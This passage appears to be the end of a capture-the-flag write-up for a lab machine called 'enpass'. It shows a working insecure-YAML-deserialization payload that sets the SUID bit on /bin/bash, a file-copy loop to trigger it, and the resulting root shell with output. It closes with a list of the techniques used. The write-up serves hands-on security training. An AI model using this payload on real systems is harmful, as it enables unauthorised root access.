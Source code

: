 This payload will add a SUID sticky bit to `/bin/bash`, so we can spawn a Bash shell with SUID privilege (root).

**Let's create a `backup.yml` file in `/tmp`!**
```yaml
imsau@enpass:~$ nano /tmp/backup.yml
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - chmod
  - +s
  - /bin/bash
```

**Then use an inifite loop to copy the file to `/tmp/file.yml`:**
```
imsau@enpass:~$ while true;do cp /tmp/backup.yml /tmp/file.yml 2>/dev/null;done
```

**Finally, verify the `/bin/bash` has SUID sticky bit:**
```
imsau@enpass:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1014K Jul 12  2019 /bin/bash
```

**It worked! Let's spawn a root Bash shell:**
```
imsau@enpass:~$ /bin/bash -p
bash-4.3# whoami;hostname;id;ip a
root
enpass
uid=1002(imsau) gid=1002(imsau) euid=0(root) egid=0(root) groups=0(root),1002(imsau)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:ae:2e:91:51:3b brd ff:ff:ff:ff:ff:ff
    inet 10.10.153.216/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::ae:2eff:fe91:513b/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**root.txt:**
```
bash-4.3# cat /root/root.txt
{Redacted}
```

# Conclusion

What we've learned:

1. Enumerating Hidden Directories & Files via `gobuster`
2. Cracking Private SSH Key Passphrase
3. Bypassing HTTP Status 403 Forbidden 
4. Vertical Privilege Escalation via Exploiting Insecure Deserialization in Python's YAML Library